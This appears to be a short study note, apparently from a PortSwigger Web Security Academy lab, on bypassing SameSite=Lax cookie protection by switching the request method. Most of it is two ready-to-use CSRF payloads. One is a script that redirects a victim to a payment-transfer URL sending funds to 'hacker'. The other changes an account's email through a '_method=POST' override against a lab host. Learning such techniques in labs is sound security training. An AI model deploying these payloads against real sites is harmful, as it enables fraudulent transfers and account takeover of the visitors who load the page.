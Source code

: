 # Bypass Same-site Lax using method switch

Bypass:

```jsx
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

**SameSite Lax bypass via method override**

![image.png](Bypass%20Same-site%20Lax%20using%20method%20switch%201e0021737a8980b1ae4dcd076e0ff117/image.png)

```jsx
<script>
    document.location = "https://0a7000c603bc1e9d8003211300090014.web-security-academy.net/my-account/change-email?email=pwner@web-security-academy.netrunner&_method=POST";
</script>
```